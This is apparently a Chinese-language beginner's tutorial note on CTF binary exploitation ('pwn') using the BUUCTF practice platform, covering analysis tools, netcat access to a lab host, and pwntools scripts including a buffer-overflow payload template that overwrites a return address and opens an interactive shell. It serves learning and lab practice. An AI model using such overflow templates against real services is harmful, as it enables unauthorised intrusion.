

<center>Pwn系列</center>


[toc]


## Pwn系列

> 什么是pwn: 二进制溢出也称之为PWN。
>
> [bilibili](https://www.bilibili.com/video/BV1X4ByY2EKv/)


### 1. 靶场

> buctf: [ctf](https://buuoj.cn/challenges)


### 2. 分析

> Exeinfo PE: 查壳工具。[github](https://github.com/ExeinfoASL/ASL/releases/tag/exeinfo)
>
> 跨平台的： [Detect-it-Easy](https://github.com/horsicq/Detect-It-Easy)

```shell
yay -S detect-it-easy
```


### 3. ida分析

> ida

```shell
yay -S ida-free
```

汇编代码



> `tab`伪代码


> 知道代码后，我们连接主机

```shell
# 连接靶场
nc node5.buuoj.cn 26813 

# 查看flag
cat flag
```


### 4. 脚本

```shell
# 虚拟环境
python3 -m venv pwn

# 进入
source /pwn/bin/activate

# 安装
pip3 install pwntools
```

```python
from pwn import *

# attact 
r = remote("node5.buuoj.cn",26813)

# 获取靶机交互终端
r.interactive()
```

```python
from pwn import *

# 设置运行环境
context.arch = 'amd64'      # 架构
context.os = 'linux'        # 系统
context.log_level = 'debug' # 日志级别

# 远程连接示例
r = remote('node5.buuoj.cn', 26813)

# 构造 Payload
payload = flat([
    b'A' * 40,           # padding
    p64(0x401234),       # 返回地址
    p64(0x404050)        # 其他数据
])

# 发送 Payload
r.sendlineafter(b'Input:', payload)

# 获取返回数据
response = r.recvline()
log.success(f'Response: {response}')

# 获取交互式 shell
r.interactive()
```


